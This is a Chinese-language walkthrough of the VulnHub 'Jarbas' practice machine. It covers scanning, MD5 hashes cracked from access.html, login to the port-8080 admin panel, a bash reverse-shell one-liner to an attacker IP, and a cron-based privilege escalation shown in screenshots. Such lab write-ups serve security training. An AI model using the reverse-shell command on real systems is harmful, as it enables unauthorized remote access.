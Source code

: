 ```yaml
---
{"dg-publish":true,"title":"vulnhub_Jarbas","dg-path":"安全/靶机/vulnhub_Jarbas.md","permalink":"/安全/靶机/vulnhub_Jarbas/","dgPassFrontmatter":true}
---
```


```table-of-contents
```
# 主机扫描

//靶机刚开始被默认设置为了NAT模式，让我扫了半天没扫出来

![Pasted image 20250114165924.png](/img/user/picture/Pasted%20image%2020250114165924.png)

内网ip：
```
192.168.1.58
```

# 端口扫描

![Pasted image 20250114170005.png](/img/user/picture/Pasted%20image%2020250114170005.png)



开了四个端口
```
22,80,3306,8080
```

![Pasted image 20250114170901.png](/img/user/picture/Pasted%20image%2020250114170901.png)

UDP扫描
![Pasted image 20250114171300.png](/img/user/picture/Pasted%20image%2020250114171300.png)



# WEB渗透



目录扫描
![Pasted image 20250114172815.png](/img/user/picture/Pasted%20image%2020250114172815.png)

有一个`access.html`

![Pasted image 20250114172836.png](/img/user/picture/Pasted%20image%2020250114172836.png)
看一下加密

![Pasted image 20250114172858.png](/img/user/picture/Pasted%20image%2020250114172858.png)
应该就是md5加密


![Pasted image 20250114172941.png](/img/user/picture/Pasted%20image%2020250114172941.png)
tiago:italia99



![Pasted image 20250114173003.png](/img/user/picture/Pasted%20image%2020250114173003.png)
trindade:marianna

![Pasted image 20250114173030.png](/img/user/picture/Pasted%20image%2020250114173030.png)
eder:vipsu




经过测试第三个用户名密码可以在8080端口登录
![Pasted image 20250114173538.png](/img/user/picture/Pasted%20image%2020250114173538.png)


我们构建一个项目添加执行shell
```shell
bash -i >& /dev/tcp/192.168.1.55/4444 0>&1
```


![Pasted image 20250114174629.png](/img/user/picture/Pasted%20image%2020250114174629.png)
得到初级权限


## 提权
![Pasted image 20250114175000.png](/img/user/picture/Pasted%20image%2020250114175000.png)


![Pasted image 20250114175304.png](/img/user/picture/Pasted%20image%2020250114175304.png)


![Pasted image 20250114175416.png](/img/user/picture/Pasted%20image%2020250114175416.png)



![Pasted image 20250114175530.png](/img/user/picture/Pasted%20image%2020250114175530.png)


完成
![Pasted image 20250114175622.png](/img/user/picture/Pasted%20image%2020250114175622.png)




# 总结

在端口扫描中发现了开启了80和8080端口
对80端口所开启的web服务进行目录扫描，发现了不安全的登录凭证
浏览8080发现后台管理系统，利用发现的信息进行登录
利用后台系统拿到普通用户权限

在提权阶段`sudo -l`没有任何信息
看自动化任务发现漏洞









